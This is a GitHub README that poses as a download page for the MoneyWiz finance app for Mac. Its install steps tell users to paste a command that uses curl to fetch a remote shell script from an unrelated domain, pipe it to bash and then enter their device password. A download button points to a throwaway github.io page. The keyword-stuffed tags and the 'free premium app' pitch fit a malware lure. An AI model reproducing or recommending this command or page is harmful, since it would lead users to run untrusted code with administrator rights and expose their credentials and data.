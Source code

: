# MoneyWiz — Download For Mac OS 🍏

Take full control of your finances with **MoneyWiz** — a premium personal finance manager designed for seamless budgeting, expense tracking, bill reminders, and investment monitoring, all in one elegant interface.

[![Download for macOS](https://img.shields.io/badge/Download%20for-macOS-black?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/monwiz)   
> If the button doesn't work, follow the instructions below using the terminal command.

---

## 📦 How to Install MoneyWiz For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

### Installation via a command in the terminal:

1. Copy the installation command below.

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the "Return" button.
3. Enter your device password and confirm the installation.

---

## 🎯 What You Get with MoneyWiz

* 📊 **Comprehensive Budgeting Tools** – Plan, set goals, and stay on track.
* 📥 **Automatic Import of Transactions** – Sync your financial data without manual input.
* 📅 **Bill Reminders** – Never miss a due date.
* 📈 **Investment Tracking** – Monitor your portfolio with detailed charts.
* 🌍 **Multi-Currency Support** – Manage finances across different countries.
* ☁️ **Cloud Sync** – Access your data across all your devices.
* 🔒 **Top-Level Security** – Your privacy and data are fully protected.
* 🧠 **Smart Categorization** – Automate expense tagging based on transaction history.

---

## About MoneyWiz

MoneyWiz is a full-featured finance manager built specifically for users who want total control over their personal or business money flow. It’s more than just a budget planner — it’s your complete financial dashboard.

From importing transactions automatically and tracking them in real time to handling multi-currency budgets and monitoring investment portfolios, MoneyWiz turns complex financial data into intuitive, actionable insights.

Whether you’re managing daily expenses, planning a major purchase, or trying to eliminate debt, MoneyWiz helps you make informed decisions.

### ⭐ Key Benefits of Using MoneyWiz:

* ✅ **Automatic Transaction Import** – Saves time and reduces manual entry.
* ✅ **Intuitive Reports and Charts** – Visualize where your money goes.
* ✅ **Scheduled Payments and Recurring Bills** – Stay organized effortlessly.
* ✅ **Privacy-First Cloud Sync** – Secure and seamless access across devices.
* ✅ **Multi-Currency Support** – Perfect for international users.
* ✅ **Powerful Investment Tools** – View gains, losses, and ROI at a glance.
* ✅ **Custom Categories and Tags** – Make it work for your unique needs.
* ✅ **Offline Mode** – Manage your finances even without internet.

---

## 🖼 Preview
![moneywiz](https://irp-cdn.multiscreensite.com/337cb0a3/files/uploaded/3_devices%402x_8ADrL9NuS5ueQ9u2UIMu.png)
*Clean, informative dashboard with balance overview and account tracking*

---

## 🔍 Tags

moneywiz mac, moneywiz, moneywiz download, moneywiz free, moneywiz app, moneywiz for mac os, moneywiz for mac download, download moneywiz for mac, finance app mac, budget tracking mac, expense management mac, moneywiz premium mac

